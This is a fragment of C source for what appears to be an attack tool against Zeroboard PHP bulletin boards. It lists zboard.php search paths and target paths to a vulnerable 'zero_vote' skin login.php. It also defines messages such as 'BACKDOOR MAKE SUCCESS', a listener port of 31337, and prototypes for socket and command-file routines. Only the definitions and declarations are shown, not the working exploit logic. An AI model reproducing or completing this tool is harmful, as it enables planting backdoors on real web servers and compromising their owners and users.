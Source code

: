 // search rule
#define FD_RULE_0 "/zboard/zboard.php"
#define FD_RULE_1 "/zb41/zboard.php"
#define FD_RULE_2 "/bbs/zboard.php"
#define FD_RULE_3 "/zb/zboard.php"
#define FD_RULE_4 "/zb40/zboard.php"
#define FD_RULE_5 "/board/zboard.php"
#define FD_RULE_6 "zboard.php"
#define FD_RULE_7 "zboard.ph"

// pattern
#define FD_PATH_0 "/zboard/skin/zero_vote/login.php"
#define FD_PATH_1 "/zb41/skin/zero_vote/login.php"
#define FD_PATH_2 "/bbs/skin/zero_vote/login.php"
#define FD_PATH_3 "/zb/skin/zero_vote/login.php"
#define FD_PATH_4 "/zb40/skin/zero_vote/login.php"
#define FD_PATH_5 "/board/skin/zero_vote/login.php"
#define FD_PATH_6 "/skin/zero_vote/login.php"

#define RESULT_OK "200 OK"
#define MAKE_STR1 "BACKDOOR MAKE SUCCESS"
#define MAKE_STR2 "ZBCODE MAKE SUCCESS"
#define DELT_STR1 "BACKDOOR DELETE SUCCESS"
#define DELT_STR2 "ZBCODE DELETE SUCCESS"

#define DEF_PORT (31337)
#define CONN_PORT (80)
#define DEF_TIME (20)

int set_sock(char *sc_gt_host,int port,int type);
void re_connt_lm(int st_sock_va,int type);
int proc_r();
void t_kill();
void sf_exit();
int g_ip(char *ip);
int make_cmd_file();
int filter_f(char *test_bf,int tnum);

int sock;

struct tg_rl
{
 int r_num;
 char *r_str;
 char *url_str;
};

#define TARGET_NUM (7)
#define SEARCH_NUM (4)

struct tg_rl __tg_rule_va[]=
{
 {0,FD_RULE_0,FD_PATH_0},
 {1,FD_RULE_1,FD_PATH_1},
 {2,FD_RULE_2,FD_PATH_2},
 {3,FD_RULE_3,FD_PATH_3},
 {4,FD_RULE_4,FD_PATH_4},
 {5,FD_RULE_5,FD_PATH_5},
 {6,FD_RULE_6,FD_PATH_6},
 {7,FD_RULE_7,FD_PATH_6},
 {8,NULL,NULL}
};
